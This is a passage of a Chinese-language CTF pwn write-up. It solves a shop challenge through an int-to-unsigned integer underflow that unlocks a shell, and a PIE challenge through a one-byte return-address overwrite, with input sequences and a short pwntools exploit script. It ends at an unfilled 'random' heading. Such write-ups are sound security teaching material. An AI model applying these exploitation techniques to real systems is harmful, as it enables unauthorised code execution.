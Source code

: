 这里发现，总共可以用money购买三种商品，我们感兴趣的肯定就是shell。也就是说，只要能买第三项就可以直接getshell。我们肯定不回去赚9999的（当然似乎也可以）。

这里有个很重要的发现，在第一个gift处提示：**What will happen when int transfer to unsigned int?**。我们发现每次检查金额的时候，都会将int类型的money强制转化为unsigned int。这里直接想到整数溢出，也就是将money变为负的即可。但是仅凭shop只能将money变为0。我们需要再找一个“扣钱”的步骤。

于是在main函数中，我们发现了一个dont_cry函数：

![image-20231004112333104](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231004112333104.png)

发现，这里可以无条件的将money扣除50，但是有且仅有一次机会。这足够了。

首先我们确定money初始值是100（64h），那么我们在shop购买两次writeup然后直接dont_cry就可以溢出了。

连接靶机，依次输入：

```
1
2
1
2
3
1
3
ls
cat flag
```

即可拿到flag

![image-20231004112812375](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231004112812375.png)

# p1eee

应该是绕过pie保护，其实是pie并不会将地址的低12位（也就是1.5个字节随机化）

根据题目，发现后门函数和实际ret的值只差了最后一个字节（改为\x69即可）

exp如下，（其实直接输入0x28个a加上一个i就可以getshell，因为最后\x69是可见字符i）

```python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')

r = process('./pwn')

r.recvuntil(b'pie!!!\n')

r.send(b'a' * 0x28 + b'\x69')

r.interactive()
```

# random
